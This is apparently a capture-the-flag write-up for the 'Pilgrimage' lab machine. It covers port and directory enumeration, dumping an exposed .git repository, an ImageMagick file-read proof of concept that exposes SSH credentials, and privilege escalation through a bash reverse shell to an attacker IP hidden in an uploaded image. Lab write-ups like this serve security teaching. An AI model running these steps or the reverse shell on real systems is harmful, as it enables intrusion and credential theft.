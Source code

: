 We run rustscan in order to enumerate the ports:

    rustscan -a 10.10.11.219

output:

    Open 10.10.11.219:22
    Open 10.10.11.219:80

we add the target machine at the /etc/hosts with the following command:

    sudo su
    echo "10.10.11.219    pilgrimage.htb" >> /etc/hosts

let's go on doing an enumeration of directory and vhosts by using feroxbuster:

    sudo feroxbuster -u http://pilgrimage.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,json,docx,pdf,js,html,git,bak -t 150 -d 2

output:

    200      GET      198l      494w     7621c http://pilgrimage.htb/
    301      GET        7l       11w      169c http://pilgrimage.htb/assets => http://pilgrimage.htb/assets/
    301      GET        7l       11w      169c http://pilgrimage.htb/.git => http://pilgrimage.htb/.git/
    301      GET        7l       11w      169c http://pilgrimage.htb/assets/images => http://pilgrimage.htb/assets/images/
    200      GET       16l       58w     5158c http://pilgrimage.htb/.git/index

it's very interesting the .git folder, we must dump it, a very helpful tool can be gitdumper.py

    python3 gitdumper.py http://pilgrimage.htb/.git/ 

it contains the backend of the server and alongside aan elf called magik, by doing some researches it's the ImageMagick software, that it'used to modify an image.
Reading the sourcecode leads to us, in the first option to try a revshell because inside the code. there is a php function called exec(), that it executes bash command by it'doesnt't work, the second option it was to doing some researches on internet and the most valuable link it was this:

	https://github.com/Sybil-Scan/imagemagick-lfi-poc

with the following command:

	python3 generate.py -f "/var/db/pilgrimage" -o exploit.png
	/upload on the website, open and download the image/
	python3 generate.py -f "/etc/passwd" -o exploit.png
	indentify -verbose result.png

Now inside the result.png there are hexdecimale values, there is the db itself holding the emily's credentials of the SSH,.
Time to connect it:

	python3 -m pwncat
	connect ssh://emily:redatcted:10.10.11.219

Boom, we're inside and we can submit the user flag.
Inside /home/emily folder there was a static binaries called "  " that if yout run it, it will show you every active processes, one caught my attention a malwarescan.sh, run by root and in short terms it used binwalk to check for malicious code inside the images uploaded by users.
I had an idea to create a fake exploit.png, with magic bytes same as a.png but with inside a revshell.

here the payload:

	/bin/bash -i >& /dev/tcp/10.9.59.103/6666 0>&1

we run the listener:

	python3 -m pwncat
	connect -lp 6666

we upload the image with the previous shell(aka SSH login):

	upload  YOUR PATH/exploit.png  /var/www/pilgrimage.htb/shrink/exploit.png

Sbam, if you check on the second pwncat shell we're the root and we can submit the root flag